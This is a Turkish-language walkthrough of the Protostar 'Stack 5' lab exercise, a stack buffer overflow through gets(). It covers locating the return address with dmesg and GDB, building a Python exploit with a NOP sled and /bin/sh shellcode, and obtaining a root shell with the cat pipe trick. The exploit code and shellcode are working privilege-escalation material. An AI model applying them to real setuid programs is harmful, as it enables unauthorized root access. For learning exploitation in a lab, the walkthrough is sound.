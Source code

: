 ```yaml
---
title: "Stack 5"
etiketler : "Protostar"
seriler: "Protostar"
sakla  : false
---
```


# Stack5.c

``` C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

**Önceki seviyeden farkı burada zıplanabilecek herhanbgi bir fonksiyon yok!**

**Amaç:** stack taşırılarak `eip` değerini stackten bir adresi gösterecek
şekilde ayarlayıp shellcode çalıştırmak.

# Programın Çalıştırılması
```
user@protostar:/opt/protostar/bin$ ./stack5

user@protostar:/opt/protostar/bin$ python -c "print 'A'*100" | ./stack5
Segmentation fault
```

# Dönüş adresini tespit etmek

``` text
user@protostar:/opt/protostar/bin$ ./stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
Segmentation fault
user@protostar:/opt/protostar/bin$ dmesg | tail -1
[16102.708303] stack4[1893]: segfault at 45454545 ip 45454545 sp bffffce0 error 4
```

Programa yukarıdaki gibi uzun bir string verdikten sonra segmentation fault
alıyoruz ve dmesg çıktısına baktığımızda `ip` registerinin `45454545` olduğunu
görüyoruz.

GDB kullanarak aynı şekilde bu bilgiye ulaşılabilir.

```text
user@protostar:/opt/protostar/bin$ gdb stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb) b *main+22
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x4444444c
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```

Tabiki eip değiştirebilmek kod işletebilmek için yeterli değil. Stackte kod
işletilebildiği durumlarda, eip'ye stackten bir adresi göstermesini
sağlayabilirsek istediğimiz shell kodunu çalıştırabiliriz.

# Stack adresini bulmak

Yukarıdaki oturumdan devam ederek registerlerin durumuna bakarsak eğer esp bize
stack pointerin en üst noktasının adresini verecektir.

```
(gdb) i r
eax            0xbffff730       -1073744080
ecx            0xbffff730       -1073744080
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff780       0xbffff780
ebp            0x44444444       0x44444444
esi            0x0      0
edi            0x0      0
eip            0x45454545       0x45454545
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

# Peki stackte nereye atlamalı

Stack'e bakacak olursak input olarak verdiğimiz A karakterlerini görebiliyoruz.

```
(gdb) x/64wx $esp-100
0xbffff71c:     0x080483d9      0xbffff730      0xb7ec6165      0xbffff738
0xbffff72c:     0xb7eada75      0x41414141      0x41414141      0x41414141
0xbffff73c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff74c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff75c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff76c:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffff77c:     0x45454545      0x46464646      0xbffff800      0xbffff82c
0xbffff78c:     0xb7fe1848      0xbffff7e0      0xffffffff      0xb7ffeff4
0xbffff79c:     0x08048232      0x00000001      0xbffff7e0      0xb7ff0626
0xbffff7ac:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffff7bc:     0x00000000      0xbffff7f8      0x0b564e3d      0x2101382d
0xbffff7cc:     0x00000000      0x00000000      0x00000000      0x00000001
0xbffff7dc:     0x08048310      0x00000000      0xb7ff6210      0xb7eadb9b
0xbffff7ec:     0xb7ffeff4      0x00000001      0x08048310      0x00000000
0xbffff7fc:     0x08048331      0x080483c4      0x00000001      0xbffff824
0xbffff80c:     0x080483f0      0x080483e0      0xb7ff1040      0xbffff81c
```

`\x45` leri değiştirerek eipyi kontrol edebiliyorduk. Stackte daha derinlere
yazabiliyorsak o zaman shellcode'u eip'den bir sonraki adıma bırakır ve eip'yi
kendinden bir sonraki adresi gösterecek şekilde ayarlayabilirsek programın
devamında istediğimiz kodu çalıştırabiliriz.

Kod üzerinde anlaması daha kolay olacağından ufaktan script yazalım.


# stack5.py
``` python
padding = "\x41"*76
eip     = "\xb8\xf7\xff\xbf"
nop     = "\x90"

trap = "\xCC"*4
print padding + eip + nop*40 + trap
```
Koddaki `\x90` lar NOPcode olarak bilinen işlemcinin o süreyi boş geçmesini
sağlayan işlemci komutudur. Kısaca bu adreslerden birini çalıştırmayı
başlatabilirsek ileride çarpacağı herhangi bir komutu çalıştırmaya devam
edecektir.

```
user@protostar:~$ python stack5.py | /opt/protostar/bin/stack5
Trace/breakpoint trap
```

Görüldüğü üzere `\xCC` bir işlemci tuzak kodudur. Debug işlemlerinde
breakpoint'ler bu şekilde sağlanır.

Yukarıdaki kodda eip adresi, `NOP` kodlarının olduğu herhangi bir yer olabilir.


# Root

Koddaki trapleri kaldırıp shellcode yerleştirdiğimiz zaman teorik olarak root
shellimiz bizi bekliyor olacak.

``` python
padding = "\x41"*76
eip     = "\xb8\xf7\xff\xbf"
nop     = "\x90"

shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print padding + eip + nop*40 + shellcode
```

``` text
user@protostar:~$ python stack5.py | /opt/protostar/bin/stack5
user@protostar:~$ python stack5.py | /opt/protostar/bin/stack5
user@protostar:~$
```

Burada Linux'ta bulunan `|` işaretinden kaynaklı bir sorun var. Pipe soldaki
programın çıktısını sağdaki programa input olarak veriyor böylelikle stack5
programına istediğimiz inputu istediğimiz şekilde verebiliyoruz. Fakat soldaki
program; ekrana bufferi doldurup, eip adresini güncelleyip, bir sürü nop
ekledikten sonra shellcode yazıp kapanıyor. Böylelikle biz stack5'te kod işletme
hakkımız olmasına rağmen programdan çıkıyoruz.

Linuxta bulunan `cat` programı dosyaların içeriğini terminale basmakta
kullanılabileceği gibi hiç bir argüman verilmemesi durumunda her satırı iki kere
ekrana basar.

```
user@protostar:~$ cat
stack5  <- input
stack5  -> output
```

Python kodumuzu ve cat'i birleştirerek root kabuğu elde edilebilir.
```
user@protostar:~$ whoami
user
user@protostar:~$ whoami
user
user@protostar:~$ (python stack5.py;cat) | /opt/protostar/bin/stack5
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

